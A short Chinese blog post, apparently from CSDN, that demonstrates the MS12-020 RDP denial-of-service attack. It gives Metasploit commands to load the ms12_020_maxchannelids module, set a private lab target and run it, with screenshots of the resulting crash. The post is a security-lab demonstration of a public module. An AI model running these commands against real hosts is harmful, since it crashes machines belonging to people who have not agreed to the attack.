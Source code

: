```yaml
---
title: MS12-020 3389蓝屏攻击
date: 2018-05-07
tags: Metasploit
layout: post
---
```



```
search ms12_020
use exploit/dos/windows/rdp/ms12_020_maxchannelids
```
![1](https://img-blog.csdn.net/20180507114503715?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

```
set rhost 192.168.222.1
exploit
```
![2](https://img-blog.csdn.net/20180507114738713?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>效果如下

![3](https://img-blog.csdn.net/20180507114747708?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

 
